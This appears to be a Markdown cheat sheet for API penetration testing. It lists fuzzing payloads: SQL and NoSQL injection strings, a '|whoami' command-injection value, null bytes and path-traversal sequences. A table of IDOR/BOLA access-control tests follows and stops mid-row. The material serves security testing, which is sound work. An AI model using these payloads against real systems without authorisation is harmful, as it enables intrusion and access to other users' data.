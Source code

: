 # API FUZZING
- input could include symbols, numbers, emojis, decimals, hexadecimal, system commands,SQL input, and NoSQL input, for instance.
1. SQL Detection Payloads, Time Based Too
1. No SQL Detection Payload
1. A value in the quadrillions
1. String of letters instead of numbers
1. A large decimal number or a negative number
1. Null values like null, (null), %00, and 0x00
1. Symbols like the following: !@#$%^&*();':''|,./?>
1. Sending characters from unexpected languages (漢, さ, Ж, Ѫ, Ѭ, Ѧ, Ѩ, Ѯ)
```bash
# wordlists
# big-list-of-naughty-strings.txt : From SecLists
# https://github.com/fuzzdb-project/fuzzdb
# https://github.com/xmendez/wfuzz
```

- Quick Test
```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
9999999999999999999999999999999999999999
~'!@#$%^&*()-_+
{}[]|\:''; '<>?,./
%00
0x00
$ne
%24ne
$gt
%24gt
|whoami
-- -
' ''
' OR 1=1-- -
'' ''''''
漢, さ, Ж, Ѫ, Ѭ, Ѧ, Ѩ, Ѯ
😀 😃 😄 😁 �
..
..\
../
\..\
\..\.\
```
# EXPLOITING API AUTHORIZATION
- Testing IDORS And Access Controls
```bash
Type                        Valid request                       BOLA test

Predictable ID      GET /api/v1/account/ 2222               GET /api/v1/account/ 3333
                    Token: UserA_token                      Token: UserA_token
                    

ID combo            GET /api/v1/UserA/data/2222             GET /api/v1/ UserB /data/ 3333
                    Token: UserA_token                      Token: UserA_token


Integer as ID       POST /api/v1/account/                   POST /api/v1/account/
                    Token: UserA_token                      Token: UserA_token
                    {"Account": 2222 }                      {"Account": [3333]}


Email as            POST /api/v1/user/account               POST /api/v1/user/account 
```